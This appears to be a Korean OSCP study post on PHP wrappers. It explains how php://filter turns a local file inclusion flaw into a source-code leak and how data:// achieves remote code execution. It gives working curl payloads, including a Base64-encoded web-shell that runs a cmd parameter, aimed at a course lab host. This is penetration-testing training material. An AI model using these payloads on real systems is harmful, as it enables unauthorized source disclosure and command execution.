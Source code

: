 ```yaml
---
layout: post
title: 9.2.2. PHP Wrappers
subtitle: 정보누출, RCE 취약점에 가까운 개념들
author: 마준영
categories: oscp
tags:
  - oscp
---
```

# 9.2.2. PHP Wrappers
## 1. PHP 래퍼(Wrappers)란?
	1. PHP는 다양한 프로토콜 래퍼(`php://`, `data://` 등)를 제공하여 파일 포함(File Inclusion) 취약점을 활용할 수 있게 합니다.
	2. 대표적으로 `php://filter`와 `data://` 래퍼를 사용하여 콘텐츠 필터링 또는 코드 실행을 시도할 수 있습니다.

### 1. `php://filter` 래퍼 활용
	1. `php://filter`는 파일 내용을 인코딩하거나, 실행 대신 내용을 표시하는 데 사용됩니다.
	2. 예를 들어, PHP 파일을 Base64로 인코딩한 상태로 출력하여 소스 코드를 분석할 수 있습니다.
	3. 이는 파일 포함(Local File Inclusion, LFI) 취약점과 결합하여 웹 애플리케이션의 PHP 파일 소스를 노출시킬 수 있습니다.
### 2. 예제
	1. base64 인코딩 없이 파일 내용 출력 (PHP가 실행되므로 결과에 소스가 보이지 않음)
	   ```shell
	   curl http://mountaindesserts.com/meteor/index.php?page=php://filter/resource=admin.php
```
	2. base64 인코딩 으로 파일 내용 출력 (출력된 Base64 데이터를 디코딩하면 PHP소스 확인 가능.)
	   ```shell
	   curl http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64-encode/resource=admin.php
```

### 1. `data://` 래퍼 활용
	1. `data://`는 데이터를 텍스트나 Base64 형식으로 직접 실행 코드에 포함할 수 있습니다.
	2. 이는 로컬 파일을 오염시키지 않고 코드 실행을 가능하게 합니다.
	3. 서버에 있는 php 파일을 변조하기 어려울때 사용하면 RCE를 할 수 있다.
2. 예제: `data://`로 코드 실행
	1. URL-인코딩된 PHP 코드 포함 및 실행
	   ```shell
	   curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"
```
	2. Base64 인코딩을 통한 실행
	   ```shell
	   echo -n '<?php echo system($_GET["cmd"]);?>' | base64
curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"

```

## 제한 사항 및 우회 방법
- 기본 PHP 설정에서는 `data://` 래퍼가 작동하지 않습니다.
- 이를 활성화하려면 `allow_url_include` 설정이 필요합니다.
- 이러한 래퍼를 활용해 파일 필터링을 우회하거나, 취약점을 통해 민감한 정보를 획득 및 악용할 수 있습니다.

## 결론

